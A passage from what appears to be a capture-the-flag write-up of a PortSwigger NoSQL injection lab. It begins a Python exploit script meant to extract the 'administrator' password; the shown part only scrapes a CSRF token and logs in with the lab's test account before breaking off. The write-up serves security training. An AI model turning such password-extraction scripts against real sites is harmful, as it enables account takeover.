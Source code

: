 **To automate this process, we can write a simple Python script to extract user `administrator`'s password!**

**However, let's see if we still be able to lookup any user without authentication:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-3/images/Pasted%20image%2020231009152019.png)

Nope. So we need to be authenticated.

**Therefore, we can write the following script:**
```python
import requests
from bs4 import BeautifulSoup
from string import ascii_letters

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.Session()

    def getCSRFToken(self):
        print('[*] Fetching the CSRF token...')
        global LOGIN_ENDPOINT
        LOGIN_ENDPOINT = '/login'
        csrfTokenRespond = self.session.get(f'{self.baseUrl}{LOGIN_ENDPOINT}')
        
        soup = BeautifulSoup(csrfTokenRespond.text, 'html.parser')
        csrfToken = soup.find('input', {'name':'csrf'}).get('value')
        sessionCookie = self.session.cookies.get_dict()['session']
        print(f'[+] Fetched the CSRF token: {csrfToken}')
        print(f'[+] Session cookie: {sessionCookie}')
        return csrfToken

    def login(self):
        csrfToken = self.getCSRFToken()
        username = 'wiener'
        password = 'peter'
        loginData = {
            'csrf': csrfToken,
            'username': username,
            'password': password
        }
```